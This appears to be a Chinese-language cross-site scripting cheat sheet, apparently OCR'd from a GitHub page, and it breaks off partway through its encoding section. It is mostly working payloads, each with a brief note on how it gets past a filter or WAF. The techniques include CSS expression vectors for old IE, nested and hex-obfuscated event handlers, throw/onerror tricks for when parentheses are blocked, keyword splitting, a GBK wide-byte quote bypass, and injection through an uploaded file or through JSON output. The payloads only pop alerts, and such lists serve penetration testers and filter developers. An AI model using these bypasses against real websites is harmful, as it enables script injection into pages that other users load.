 `<div style="color:rgb(''&#0;x:expression(alert(1))"></div>` // IE7以下
 
`<style>#test{x:expression(alert(/XSS/))}</style>` // IE7以下
#### 最短的测试向量
`<q/oncut=alert(1)>`//在限制长度的地方很有效
#### 嵌套
`<marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>`
`<bodylanguage=vbsonload=alert-1`//IE8有效
`<command onmouseover="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x6 6\x69\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command>` //IE8有效
### 通用
### 特定
## 条件绕过（和上一个类似）
### 过滤
1. 过滤括号
    当括号被过滤的时候可以使用 throw 来绕过
    `<a onmouseover="javascript:window.onerror=alert;throw 1>`
    `<img src=x onerror="javascript:window.onerror=alert;throw 1">`
    以上两个测试向量在 Chrome 和 IE 上会出现一个 "uncaught" 错误，可以用下面的向量代替：
    `<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>`
2. 当=();:被过滤时
    `<svg><script>alert&#40/1/&#41</script>` // 通杀所有浏览器s
    opera 中可以不闭合
    `<svg><script>alert&#40 1&#41` // Opera可查s
3. 过滤某些关键字（如：javascript）
可以在属性中的引号内容中使用空字符、空格、TAB换行、注释、特殊的函数，将代码行隔开。比如在使用`<iframe src="javascript:alert(1253)" height=0 width=0 /><iframe>`时，可以用回车、Tab键将src中的内容隔开，回车的url编码为%0a,%0b;
拼凑法：① 双写绕过；② 使用js定义变量z=scri, z+pt=script; ③ 两处输出点`<scri<!-- 第二处-->pt>`;
4. 本地waf
该包绕过；
5. 使用了宽字节字符集
在PHP中，若你开启magic_quotes_gpc=On时，输入的“会转化为\”. 即会对引号做处理，导致攻击失败。而\符号的16进制表示为0x5c，正好在GBK的第字节中。所以，如果之前又一个高字节，那么正好会被组成一个合法字符，可以使用%df来测试。
常见的宽字符集有：GB2312、GBK、GB18030、BIG5、Shift_JIS；
所以，针对存在这种过滤的PHP网页，我们可以输入%81”来绕过过滤。
输入上面的字符，我们的引号还是会转化为”，但是由于此时最终代码为％81”。在宽字节中，％81\会拼接成一个合法字符，于是后main的双引号就会产生闭合，就能成功触发XSS了。
6. 绕过单引号
`<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)</script>`
7. 输出在js注释中
直接换行符走你；
8. 两个注入点（绕过谷歌）
`http://xxx/chrome.php?text1=<script>alert(/XSS/);void('&text2=')</script> ``http://xxx/chrome.php?text1=<script>alert(/XSS/);document.write('&text2=')</script>`
9. 具有可控上传点
网站域名下有可控的上传点，我可以上传一个.txt或.js等文件（只要不是媒体文件，其他文件均可，比如上传是黑名单验证的，可以随便写个后缀）。再引入script标签的src属性即可。
payload:
`xss=%3Cscript%20src=/game/xss/upload/upload.txt%3E%3C/script%3E`
10. 存在json数据解析
context：
`<?=json_encode($_GET['x'])?> `
payload：
` ?x=<img+src=x+onerror=ö-alert(1)>`
### 编码
很多情况下 WAF 会实体编码用户的输入数据，
javascript 是一个很灵活的语言，可以使用很多编码，比如十六进制，Unicode 和 HTML。但是也对这些编码可以用在哪个位置有规定。
属性：
    1. href=
    2. action=